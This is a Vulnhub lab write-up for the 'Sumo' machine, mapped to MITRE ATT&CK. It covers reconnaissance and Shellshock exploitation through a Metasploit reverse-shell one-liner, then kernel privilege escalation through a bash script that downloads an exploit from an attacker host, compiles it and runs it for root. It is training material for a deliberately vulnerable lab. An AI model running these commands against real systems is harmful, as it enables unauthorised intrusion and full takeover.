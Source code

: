 # Vulnhub Writeup #5: Sumo
## MITRE Att&ck Overview
---
![](2021-10-28-01-58-47.png)
MITRE ATT&CK matrix made with [Mitre-Attack-Navigator](https://mitre-attack.github.io/attack-navigator)

## Reconnaissance
--------------------------
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Procedure
#### T1594 - Search Victim owned Websites
- Used ZAP and crawled host's port 80 HTTP server; found nothing of note.
- Gobuster
  - Didn't get 200s for pages other than index.html with Seclists Discovery Wordlists
  - After having success with Nikto, wrote a script at  [Reconnaissance](Reconnaissance) which was able to identify this folder, as well as a default "it works! file". 

   
#### T1595 - Active Scanning 
- Nikto 
  - Identified shellshock vulnerability on the target
  - Also identified a directory /cgi-bin/test, as well as a file test.sh
    - Didn't determine how to identify these files without Nikto
    - What method Nikto used to find them, but it may be related to mod_negotiate being in use on the Apache server
 #### Reconnaissance Summary
  - Nothing else was identified. Methods to identify the vulnerability appear to be
    1) Nikto
    2) Knowing that CGI is extremely vulnerable
- No other write-ups I've found have illustrated anything other than Nikto or pure deduction based on the presence of CGI to find this vector.

## Initial Access, Execution & Command and Control
--------
### Procedure
1. Scanned for shellshock vulnerabilities in MSF (Searchsploit could've been used here as well):
```search shellshock```. The ```apache_mod_cgi_bash_env_exec``` exploit was returned as an applicable MSF module.
2. Deliver payload via MSF

```
msfconsole -x "use exploit/multi/http/apache_mod_cgi_bash_env_exec;\
set PAYLOAD payload/linux/x86/shell_reverse_tcp;\
set TARGETURI /cgi-bin/test/test.cgi;\
set RHOST 172.16.2.44;\
set LPORT 4444;\
set CVE CVE-2014-6278;\
exploit -z"
```


## Discovery > Collection > Exfiltration
--------
### Procedure
1. Checked running processes with ps -aux. Didn't find anything noteworthy. 
2. Checked home directory and served Apache directory /var/www/html, finding nothing 
3. Checked listening connections which didn't find anything noteworthy. 
4. Checked distro/kernel version and compared it against searchsploit, which turned up an exploit

## Privilege Escalation
--------
### Procedure
1. Identify victim's kernel version as vulnerable to LPE (source: SearchSploit)
```searchsploit ubuntu |grep 3.2.0-23 |grep -vi \< 3.2.0-23 ```

2. Compile as pwn.c and serve via http
3. Use the ```-s``` flag to run sumo_post.sh script over the ssh session  
```sessions -i 1 -s /home/kali/targetz/sumo/sumo_post.sh"```
### Notes
**sumo_post.sh**
```bash
#!/bin/bash
##### sumo_post.sh - privilege escalation script
cd /tmp
R="172.16.2.45"
wget $R/pwn.c #priv esc exploit
chmod +x pwn.c
# fix path, gcc can't see ld binary from tmp 
export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
/usr/bin/gcc pwn.c -O2 -o vnik
./vnik 0  # results in root shell
python -c 'import pty; pty.spawn("/bin/sh")'
```


## Appendix: 
---
### Key lessons learned:
- Looking only for 200s in gobuster caused me to miss CGI-Bin dir. 
- Not enabling recursion in your automations can make enumeration a pain
- No straight lines found to discovering CGI vulnerability outside Nikto or Apache-CGI expertise
- Modify shell path early on to avoid "missing" binaries with ```export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin```
---
### Technical Issues Encountered:
GCC compliation error:
 
``` 
collect2: cannot find 'ld' when compiling in /tmp/
```

Found solution at  [stackoverflow](https://stackoverflow.com/questions/35970824/gcc-collect2-fatal-error-cannot-find-ld):

Two Options:
1) modify path
eg. export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin 

 2) copy ld binary to tmp


Obsidian Tags

#vulnhub #linux
